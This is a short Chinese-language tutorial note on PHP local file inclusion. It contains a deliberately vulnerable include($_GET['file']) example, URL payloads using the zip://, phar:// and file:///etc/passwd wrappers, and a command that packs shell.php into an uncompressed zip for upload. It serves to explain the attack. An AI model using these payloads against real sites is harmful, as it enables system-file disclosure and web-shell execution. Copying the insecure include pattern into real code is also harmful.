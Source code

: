 ```yaml
---
title: "php 文件包含"
date: 2016-02-24 16:47
---
```


## 与文件包含相关的函数

```
require         找不到被包含的文件时会产生致命错误，并停止脚本运行。
include         找不到被包含的文件时只会产生警告，脚本将继续运行。
include_once    与include类似，唯一区别是如果该文件中的代码已经被包含，则不会再次包含。
require_once    与require类似，唯一区别是如果该文件中的代码已经被包含，则不会再次包含
```

## 本地文件包含(LFI--Local File Include)

只要网站支持上传，上传任意后缀文件，被包含的文件中含有效的php代码，则引入当前文件执行，若不含有效php代码，则直接输出文件内容

* 样例：

```
echo "<?php phpinfo();?>" > info.txt

# lfi.php
<?php include($_GET['file']); ?>

#
http://ip/?file=info.txt
```

协议 | 附加条件 | php | 样例 (file=)
---- | ---- | ----- | ----
zip:// | ZIP extension | | zip://archive.zip#dir/file.txt
phar:// | | | phar://archive.zip/file.txt
file | | | file:///etc/passwd

### zip://

> zip extension

```
# zip 内含目录
zip://archive.zip#dir/file.txt

# url 中使用 "%23"(#)
?f=zip://path_to_zip%23inside_file_name
```

#### 上传zip利用

文件压缩成zip包，压缩的时候注意要选择only store之类的选项，防止数据被压缩

```
zip -0 1.zip shell.php
```


[5]: http://php.net/manual/zh/features.file-upload.post-method.php